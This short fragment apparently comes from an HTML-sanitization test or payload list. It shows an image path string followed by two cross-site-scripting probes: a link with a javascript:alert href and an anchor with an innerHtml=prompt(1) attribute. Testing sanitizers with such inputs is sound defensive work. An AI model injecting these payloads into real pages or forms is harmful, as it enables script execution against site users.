 # <a href="javascript:alert('XSS Attack!');">Click me</a>
</article><a innerHtml=prompt(1)>clickme</a>

